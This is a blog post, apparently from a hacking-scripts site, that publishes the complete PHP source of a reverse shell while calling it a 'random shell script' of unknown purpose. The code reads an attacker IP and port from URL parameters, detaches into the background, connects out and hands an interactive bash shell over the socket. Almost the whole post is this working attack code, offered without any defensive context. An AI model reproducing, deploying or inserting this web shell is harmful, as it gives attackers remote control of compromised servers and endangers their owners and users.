 ```yaml
---
id: 86
title: Random Shell Script
author: admin
layout: post
guid: http://hackingscripts.com/?p=86
permalink: /random-shell-script/
categories:
  - PHP
tags:
  - PHP
---
```

A random shell script.. I don&#8217;t know what this one does, or find any information on it. I don&#8217;t even know what it&#8217;s called! Anyway, it is very nicely written and commented.

## Random Shell Script Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php
set_time_limit (0);
$VERSION = "1.0";
$ip = $_GET["ip"]; 
$port = $_GET["port"]; 
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = '/bin/bash -p -i';
$daemon = 0;
$debug = 0;
 
if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();
 
    if ($pid == -1) {
        printit("ERROR: Can't fork");
        exit(1);
    }
 
    if ($pid) {
        exit(0);  // Parent exits
    }
 
    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
        printit("Error: Can't setsid()");
        exit(1);
    }
 
    $daemon = 1;
} else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
 
// Change to a safe directory
chdir("/");
 
// Remove any umask we inherited
umask(0);
 
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
}
 
// Spawn shell process
$descriptorspec = array(
   0 =&gt; array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 =&gt; array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 =&gt; array("pipe", "w")   // stderr is a pipe that the child will write to
);
 
$process = proc_open($shell, $descriptorspec, $pipes);
 
if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
}
 
// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
 
printit("Successfully opened reverse shell to $ip:$port");
 
while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
        printit("ERROR: Shell connection terminated");
        break;
    }
 
    // Check for end of STDOUT
    if (feof($pipes[1])) {
        printit("ERROR: Shell process terminated");
        break;
    }
 
    // Wait until a command is end down $sock, or some
    // command output is available on STDOUT or STDERR
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
 
    // If we can read from the TCP socket, send
    // data to process's STDIN
    if (in_array($sock, $read_a)) {
        if ($debug) printit("SOCK READ");
        $input = fread($sock, $chunk_size);
        if ($debug) printit("SOCK: $input");
        fwrite($pipes[0], $input);
    }
 
    // If we can read from the process's STDOUT
    // send data down tcp connection
    if (in_array($pipes[1], $read_a)) {
        if ($debug) printit("STDOUT READ");
        $input = fread($pipes[1], $chunk_size);
        if ($debug) printit("STDOUT: $input");
        fwrite($sock, $input);
    }
 
    // If we can read from the process's STDERR
    // send data down tcp connection
    if (in_array($pipes[2], $read_a)) {
        if ($debug) printit("STDERR READ");
        $input = fread($pipes[2], $chunk_size);
        if ($debug) printit("STDERR: $input");
        fwrite($sock, $input);
    }
}
 
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
 
// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
    if (!$daemon) {
        print "$string\n";
    }
}
?&gt;
</pre>